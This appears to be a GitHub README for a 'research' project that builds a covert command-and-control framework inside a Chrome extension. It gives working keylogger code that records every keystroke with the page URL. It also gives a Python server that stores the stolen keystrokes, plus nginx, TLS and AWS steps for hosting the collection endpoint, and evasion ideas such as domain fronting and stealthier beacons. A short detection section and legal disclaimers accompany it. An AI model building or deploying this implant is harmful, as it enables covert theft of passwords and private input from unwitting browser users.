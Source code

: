 Covert Chrome Extension C2 Framework (Research Project)

📄 Executive Summary

This project is a comprehensive, self-contained simulation of a covert Command-and-Control (C2) framework delivered through a Google Chrome extension. The aim was to understand how web technologies can be abused by sophisticated threat actors to evade detection and maintain persistent access using standard browser behavior. The project includes a full infrastructure setup on AWS, leveraging secure communication over HTTPS with realistic browser traffic patterns, and keystroke exfiltration from user interaction.

Important: This project was built strictly for cybersecurity research, red team development, and educational purposes. All experimentation occurred in a private, controlled lab environment.

💡 Goals & Objectives

Investigate the feasibility of using Chrome extensions as covert implants

Develop a functioning HTTPS-based C2 channel using standard web protocols

Deploy and harden an AWS-hosted backend infrastructure with reverse proxying

Study and document the traffic and endpoint characteristics of the C2 for detection research

🧰 Architecture Overview

Client-Side Implant: Chrome Extension

Manifest v3 compliant

Hooks into document.onkeydown to capture keystrokes

Stores logs in chrome.storage.local

Sends logs over HTTPS POST or WebSocket every 5 seconds

Mimics normal user browsing traffic

Server-Side:

Hosted on AWS EC2 Ubuntu instance

Runs Python HTTP server for log reception

Uses Nginx as a reverse proxy and TLS terminator

TLS certificate provided by Let's Encrypt via certbot

Traffic flows from Chrome -> nginx:443 -> Python:8000

DNS & Domain:

Managed by Cloudflare DNS for domain threathunter.vip

Set up A records and MX records for future email and identity testing

Used Elastic IP to ensure persistent endpoint between reboots

📁 Chrome Extension Components

manifest.json

Specifies permissions (storage, <all_urls>, etc.)

Declares background service worker and content script

content.js

(function () {
  document.addEventListener("keydown", function (e) {
    const entry = {
      k: e.key,
      t: Date.now(),
      u: window.location.href
    };

    chrome.storage.local.get({ d: [] }, function (res) {
      let logs = res.d;
      logs.push(entry);
      chrome.storage.local.set({ d: logs });
    });
  });
})();

background.js

Establishes persistent WebSocket or fetch beacon to server

Periodically flushes buffer from chrome.storage.local

🚀 Server Deployment

Step 1: AWS EC2 Launch

Chose Ubuntu 22.04 LTS

Instance type: t3.micro (Free Tier eligible)

Elastic IP attached

Step 2: Nginx Setup

Installed via apt

Configured in /etc/nginx/sites-available/default

server {
    listen 443 ssl;
    server_name threathunter.vip;

    ssl_certificate /etc/letsencrypt/live/threathunter.vip/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/threathunter.vip/privkey.pem;

    location /submit {
        proxy_pass http://127.0.0.1:8000;
    }
}

Step 3: TLS with Let's Encrypt

sudo certbot --nginx -d threathunter.vip

Step 4: Python C2 Server

from http.server import BaseHTTPRequestHandler, HTTPServer
import json

class C2Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path != '/submit':
            self.send_response(404)
            return
        length = int(self.headers['Content-Length'])
        data = json.loads(self.rfile.read(length))
        with open("keystrokes.txt", "a") as f:
            for log in data.get("logs", []):
                f.write(f"[{log['t']}] {log['u']}: {log['k']}\n")
        self.send_response(200)

if __name__ == "__main__":
    HTTPServer(("127.0.0.1", 8000), C2Handler).serve_forever()

Step 5: System Automation

crontab to auto-start Nginx and C2 server on reboot

Python server wrapped in a shell script and daemonized

🎨 Screenshot Section (to include in GitHub or LinkedIn)

1. Chrome Extension Keylogging in DevTools

(Insert screenshot of chrome.storage.local.get() showing captured keystrokes)

2. C2 Server Terminal Output

(Show terminal with [+] Wrote X keystrokes to keystrokes.txt])

3. HTTPS Request Capture in BurpSuite or Wireshark

(Display packet capture showing encrypted HTTPS or WebSocket payloads)

4. Nginx SSL Configuration

(Screenshot of nginx -t test success with cert paths)

🔐 Security & Detection Considerations

Red Team:

Covert transport using legitimate protocols

Persistence across browser restarts

Chrome's chrome.storage and service_worker APIs leveraged

Blue Team:

Detect unusual WebSocket or beaconing patterns

Monitor extension permissions and behavior

Watch for high frequency chrome.storage.local.get() reads

Analyze keystrokes.txt for anomalies or unexpected activity

🏆 Outcome

The project successfully demonstrated a full lifecycle attack simulation using browser-native APIs and HTTPS-based covert transport. While realistic and difficult to detect, this setup highlights critical visibility gaps in modern endpoint and network defense strategies.

🔧 Future Work

Add clipboard scraping and DOM snapshotting

Use domain fronting and CDN-based endpoint hosting

Log frequency tuning and stealthier beacons

Integrate machine learning to classify user behavior based on logs

📅 Date of Version

Published: July 11, 2025

⚖️ License

This project is licensed under the MIT License. See LICENSE for more information.

🚧 Legal

This research is intended for legal, educational, and ethical purposes only.



